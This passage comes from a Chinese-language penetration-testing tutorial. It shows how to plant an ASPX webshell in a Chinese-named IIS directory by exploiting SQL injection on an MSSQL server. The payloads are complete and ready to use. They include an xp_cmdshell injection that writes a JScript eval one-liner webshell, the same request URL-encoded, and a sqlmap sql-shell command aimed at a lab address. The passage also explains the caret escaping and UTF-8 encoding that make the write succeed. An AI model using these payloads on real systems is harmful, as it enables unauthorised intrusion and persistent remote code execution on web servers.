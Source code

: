 **0x04 通过浏览器手工写马**

使用谷歌浏览器在注入点后边执行以下SQL语句即可将马写入至中文路径，不过在写马时得在尖括号&lt;&gt;前用^转义下，否则是写不进去的，提示：此时不应有 &gt;。

- 

```php
;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell.aspx'--
```

![图片](https://shs3.b.qianxin.com/butian_public/ffccdf664bf37b33efd5a34b1dbd750e0.jpg)

@5号黯区博客中提到的火狐Hackbar插件执行报错的问题也进行了测试，并没有出现此类问题，猜测可能是他们当时火狐浏览器的编码或者插件问题吧，实战中注意下。

**简要分析：**

为什么能在浏览器写入至中文路径呢？因为浏览器编码是UTF-8，注入页面编码也是UTF-8，可以识别中文字符，而且浏览器也会给中文路径进行URL(UTF-8)编码，BurpSuite抓包解码看一下。

![图片](https://shs3.b.qianxin.com/butian_public/fafe2865534b8a618fdd0db640ea0ca4e.jpg)

**解码前：**

- 

```php
/sql.aspx?id=1;exec%20master..xp_cmdshell%20%27echo%20^%3C%@%20Page%20Language=%22Jscript%22%^%3E^%3C%%eval(Request.Item[%22xxxasec%22],%22unsafe%22);%^%3E%20%3E%20C:\inetpub\wwwroot\%E4%B8%AD%E6%96%87%E6%B5%8B%E8%AF%95\shell.aspx%27--
```

**解码后：**

- 

```php
/sql.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell.aspx'--
```

![图片](https://shs3.b.qianxin.com/butian_public/f7ffdd8c4bf9e69a1dfde5aaa6271c529.jpg)

**注：**浏览器默认编码是UTF-8，如果改为GBK或其他编码后就不能写至中文路径了。在渗透测试中需要注意的编码问题还有很多，如：浏览器、网页字符、数据库、命令终端编码等，经常会遇到这种因编码问题而出现字符乱码，导致读写不了文件、中文回显乱码等情况。

**0x05 sqlmap sql-shell写马**

进入sqlmap的sql-shell后执行以下SQL语句也可以将马写入至中文路径，为什么？通过BurpSuite抓包分析得知这其实和浏览器是一样的，sqlmap也会将中文路径进行URL(UTF-8)编码。

- 

```php
sqlmap -u "http://192.168.1.109/sql.aspx?id=1" --sql-shell --batch --proxy http://127.0.0.1:8080
```

- 

```php
exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%%eval(Request.Item["xxxasec"],"unsafe");%^> > C:\inetpub\wwwroot\中文测试\shell1.aspx'
```
